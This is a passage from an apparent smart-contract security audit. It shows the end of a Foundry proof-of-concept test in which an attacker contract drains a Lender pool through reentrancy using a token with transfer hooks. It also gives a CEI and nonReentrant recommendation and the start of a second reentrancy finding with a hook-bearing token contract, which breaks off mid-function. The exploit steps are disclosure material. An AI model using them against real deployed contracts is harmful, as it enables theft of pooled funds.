 ```solidity
    assertEq(loanToken.balanceOf(address(lender)), 0);                  
    assertEq(weirdToken.balanceOf(address(lender)), 10_000*10**18);     // Lender contract has 10_000 weirdTokens
    assertEq(loanToken.balanceOf(address(attacker)), 100);              // Attacker has a few wei of loanToken
    assertEq(weirdToken.balanceOf(address(attacker)), 1_000*10**18 + 1);    // Attacker has 1_000 weirdTokens     

    // Exploit starts here
    vm.startPrank(attacker);
    Exploit6 attackContract = new Exploit6(lender, address(weirdToken));
    weirdToken.transfer(address(attackContract), 1_000*10**18 + 1);
    loanToken.transfer(address(attackContract), 100);

    attackContract.attackPart1(address(loanToken), address(weirdToken));
    vm.warp(block.timestamp + 5 minutes); // Wait 5 minutes for the end of the auction
    attackContract.attackPart2(address(loanToken), address(weirdToken));

    // Pool has been drained
    assertEq(loanToken.balanceOf(address(lender)), 0);              
    assertEq(weirdToken.balanceOf(address(lender)), 1);               // Lender contract has been drained (1 wei left)
    assertEq(loanToken.balanceOf(address(attacker)), 100);   
    assertEq(weirdToken.balanceOf(address(attacker)), 10_945*10**18); // Attacker has 11_000 weirdTokens (minus the fees)   
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by performing the token transfers at the end of the `seizeLoan` function AND use nonReentrant modifiers


# [M-02] - `Lender` contract can be drained by re-entrancy in `refinance` (collateral) **SELECTED**
## Summary
Tokens allowing reentrant calls on transfer can be drained from a pool.

## Vulnerability Details
Some tokens allow reentrant calls on transfer (e.g. `ERC777` tokens).
Example of token with hook on transfer:
```solidity
pragma solidity ^0.8.19;

import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract WeirdToken is ERC20 {

    constructor(uint256 amount) ERC20("WeirdToken", "WT") {
        _mint(msg.sender, amount);
    }

    // Hook on token transfer
    function _afterTokenTransfer(address from, address to, uint256 amount) internal override {
        if (to != address(0)) {
```